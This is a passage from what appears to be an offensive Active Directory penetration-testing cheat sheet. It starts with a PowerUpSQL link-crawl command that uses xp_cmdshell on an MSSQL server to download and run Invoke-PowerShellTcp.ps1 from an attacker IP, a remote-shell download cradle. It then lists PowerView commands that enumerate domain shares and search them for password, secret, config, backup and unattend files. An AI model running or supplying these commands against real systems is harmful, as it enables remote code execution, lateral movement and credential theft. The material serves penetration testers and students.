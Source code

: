With confirmed command execution under the "sa" account on the `mssql-master-srv` we can then connect remotely by executing a `PowerShell` download cradle

{% code overflow="wrap" %}
```powershell
Get-SQLServerLinkCrawl -Instance mssql-srv -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://<IP>/Invoke-PowerShellTcp.ps1'')"' -E df
```
{% endcode %}

### Shares and Files Enumeration

#### PowerView (Shares)

```powershell
# Find available shares on hosts in the current Domain
Find-DomainShare -Verbose

# Filter out uninteresting print shares
Find-DomainShare -Verbose -CheckShareAccess | Where-Object {$_.Name -ne "print$"} | FT -AutoSize

# Get all file servers on Domain
Get-DomainFileServer

# List all shares on specific domain system
Get-NetShare -ComputerName <Host>
```

**PowerView (Files)**

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"># Various
<strong>Find-InterestingDomainShareFile -verbose
</strong>Find-InterestingDomainShareFile -OfficeDocs
Find-InterestingDomainShareFile -Include *.ps1,*.bak,*.vbs,*.config,*.conf
Find-InterestingDomainShareFile -Terms account*,pass*,secret*,conf*,test*,salar*

# Individual examples
# Config files
Find-InterestingDomainShareFile -Include *.conifg | Select -ExpandProperty "Path" | Sort | Out-File "Config-Files.txt" -Encoding "ASCII"

# Bak files
Find-InterestingDomainShareFile -Include *.bak| Select -ExpandProperty "Path" | Sort | Out-File "Bak-files.txt" -Encoding "ASCII"

# Unattend files
Find-InterestingDomainShareFile -Include *unattend* | Select -ExpandProperty "Path" | Sort | Out-File "Unattend.txt" -Encoding "ASCII"
